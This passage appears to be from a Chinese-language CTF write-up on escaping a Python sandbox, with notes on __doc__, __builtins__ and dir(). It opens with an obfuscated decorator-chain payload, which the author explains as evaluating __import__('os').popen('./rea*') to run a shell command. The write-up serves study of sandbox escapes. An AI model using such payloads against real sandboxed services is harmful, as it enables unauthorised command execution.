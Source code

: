```python
@len.__name__.format
@copyright._Printer__filenames.append
@len
@ValueError.__doc__.format
@copyright._Printer__filenames.append
@len
@Exception.__doc__.format
@copyright._Printer__filenames.append
@len
@OSError.__doc__.format
@copyright._Printer__filenames.append
@len
@StopIteration.__doc__.format
@copyright._Printer__filenames.extend
@str.encode
@open.__name__.format
@copyright._Printer__filenames.append
@len
@set.__doc__.format
@copyright._Printer__filenames.append
@len
@Exception.__doc__.format
@copyright._Printer__filenames.extend
@str.encode
@__import__.__name__.__add__
@str
@tuple
@str.split
@str.lower
@OSError.__name__.rstrip
@TypeError.__name__.format
class room: ...
```

上面的就是在做：

```python
print(list(eval(b'__import__("os",).popen("./rea*")')))
```

因為對 Python 極度不熟，所以來惡補一下。

`__doc__` 可以拿到一個 method 的文件，要在 source code 裡面宣告，像這樣：

``` python
def test():
  """hello"""
print(test.__doc__) # hello
```

原來 Python 有這麼好用的功能，看起來在開發上滿實用的，要輸出成文件什麼的應該比較容易

然後在 Python 裡面可以用 `__builtins__` 拿到內建的所有東西，感覺有點像是 js 的 global 那樣，可以看出有哪些東西可以用。

用 `dir()` 可以列出所有屬性，所以可以自己寫一個遞迴去找出 list，像這樣：
